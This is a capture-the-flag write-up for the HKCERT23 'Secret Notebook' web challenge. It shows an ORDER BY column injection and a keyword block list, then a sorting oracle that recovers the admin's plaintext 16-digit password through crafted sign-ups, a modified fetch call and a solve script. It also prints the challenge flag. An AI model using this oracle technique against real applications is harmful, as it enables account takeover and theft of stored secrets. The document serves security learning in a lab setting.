








# Secret Notebook

by looking into the `app/app.py`

we can see the function `doGetPublicNotes(column, ascending)` is a bit SUS

```python
def doGetPublicNotes(column, ascending):
    connector = getConnector()
    cursor = connector.cursor()
    if column and not isInputValid(column):
        abort(403)
    if ascending  != "ASC":
        ascending = "DESC"
    cursor.execute(f"SELECT username, publicnote FROM users ORDER BY {column} {ascending};") <---
    results = []
    for row in cursor.fetchall():
        results.append({'username':row[0],
        'publicnote':row[1]})
    cursor.close()
    connector.close()
    return results
```

while the other functions use `PreparedStatement` to prevent `SQL Injection` <br/>
the above function `doGetPublicNotes` uses `String Concatenation` to construct its query

this give us a chance to do `SQL Injection`

however, I have no ideas on how to bypass those filters🥲

```python
def isInputValid(untrustedInput: str) -> bool:
    if "'" in untrustedInput \
        or "\"" in untrustedInput \
        or ";"  in untrustedInput \
        or "/"  in untrustedInput \
        or "*"  in untrustedInput \
        or "-"  in untrustedInput \
        or "#"  in untrustedInput \
        or "select"  in untrustedInput.lower() \
        or "insert"  in untrustedInput.lower() \
        or "update"  in untrustedInput.lower() \
        or "delete"  in untrustedInput.lower() \
        or "where"  in untrustedInput.lower() \
        or "union"  in untrustedInput.lower() \
        or "sleep"  in untrustedInput.lower() \
        or "secretnote"  in untrustedInput.lower() :
        return False
    return True
```

therefore, i will use another way to solve this challenge <br/>
~~so why am i writing these stuffs~~

## Real Writeup

we know that the `Administrator` 's password is in `16 random digits`

<details>
<summary>init() in app.py</summary>

```python
def init():
    connector = getConnector()
    cursor = connector.cursor()
    digits = string.digits
    password = ''.join(secrets.choice(digits) for i in range(16))
    cursor.execute(f"INSERT INTO users (username, password, publicnote, secretnote) VALUES ('{'Administrator'}','{password}','{'Welcome! I am admin and I hope you are having fun.'}', '{os.environ['FLAG']}') ON DUPLICATE KEY UPDATE password = '{password}';")
    connector.commit()
    cursor.close()
    connector.close()
```

</details>

since the `user` table store `password` in plaintext (~~BAD, DONT DO THIS~~) <br/>
we can require the server to return public notes ordered by users' (and admin's) passwords <br/>

by investigating the website source, it can be easily seen that a function `retrievePublicNotes()` is bind to the button `Retrieve Public Notes`

<details>
<summary>retrievePublicNotes()</summary>



```js
function retrievePublicNotes() {
    // Assuming you have an endpoint called 'publicNote'
    fetch('/note?noteType=public&column=username&ascending=ASC')
    .then(response => response.json())
    .then(data => {
        var div = document.getElementById("note");
        div.innerHTML = ""; // Clear previous notes
        var table = document.createElement('table');

        var headerRow = document.createElement('tr');

        var usernameHeader = document.createElement('th');
        usernameHeader.textContent = 'Username';
        headerRow.appendChild(usernameHeader);

        var publicNoteHeader = document.createElement('th');
        publicNoteHeader.textContent = 'Public Note';
        headerRow.appendChild(publicNoteHeader);

        table.appendChild(headerRow);
        data.content.forEach(function(item) {
            var row = document.createElement('tr');

            var usernameCell = document.createElement('td');
            usernameCell.textContent = escape(item.username);
            row.appendChild(usernameCell);

            var publicNoteCell = document.createElement('td');
            publicNoteCell.textContent = escape(item.publicnote);
            row.appendChild(publicNoteCell);

            table.appendChild(row);
        });
        div.appendChild(table);

    })
    .catch(error => console.error('Error:', error));
}
```

</details>

modify it to make it sort in `password` instead of `username`

```js
function retrievePublicNotesOrderByPassword() {
    // Assuming you have an endpoint called 'publicNote'
    fetch('/note?noteType=public&column=password&ascending=ASC')
    .then(response => response.json())
    .then(data => {
        var div = document.getElementById("note");
        div.innerHTML = ""; // Clear previous notes
        var table = document.createElement('table');

        var headerRow = document.createElement('tr');

        var usernameHeader = document.createElement('th');
        usernameHeader.textContent = 'Username';
        headerRow.appendChild(usernameHeader);

        var publicNoteHeader = document.createElement('th');
        publicNoteHeader.textContent = 'Public Note';
        headerRow.appendChild(publicNoteHeader);

        table.appendChild(headerRow);
        data.content.forEach(function(item) {
            var row = document.createElement('tr');

            var usernameCell = document.createElement('td');
            usernameCell.textContent = escape(item.username);
            row.appendChild(usernameCell);

            var publicNoteCell = document.createElement('td');
            publicNoteCell.textContent = escape(item.publicnote);
            row.appendChild(publicNoteCell);

            table.appendChild(row);
        });
        div.appendChild(table);

    })
    .catch(error => console.error('Error:', error));
}
```

paste the above function into `console` of your browser <br/>
and paste the below button into `elements` to make things easier 


```html
<button onclick="retrievePublicNotesOrderByPassword()">Order by password</button>
```

<details>
<summary>screenshot</summary>



</details>

signup two accounts called `0000000000000000` and `9999999999999999` with their `passwords` same as their username

after pressing `Order by password` <br/>
we can see that the position of `Administrator` is between them <br/>
so the password of `Administrator` must be greater than `0000000000000000` but less than `9999999999999999`

so, by signing up accounts and locating the interval where `Administrator` drops in <br/>
we can determine the exact password of `Administrator`

<details>
<summary>screenshot</summary>



</details>

keep signing up accounts is **toooooo** tedious <br/>
so I write a script to do this

https://github.com/STC-STEM/hkcert23ctf-writeups/tree/main/secret-notebook/solve.py

<details>
<summary>screenshots</summary>





</details>

lastly, we get the following order in public notes



from this order, we can tell that the password of `Administrator` could be either `0557192864287806` or `0557192864287807` (possibly the one with larger value) <br/>
in my case, it is `0557192864287807` (may be different from yours)

login with username `Administrator` and the password you gained <br/>
click `Retrieve Secret Notes` <br/>
you will get the flag



flag: hkcert23{17_15_n07_50_53cr37_4f73r_4ll}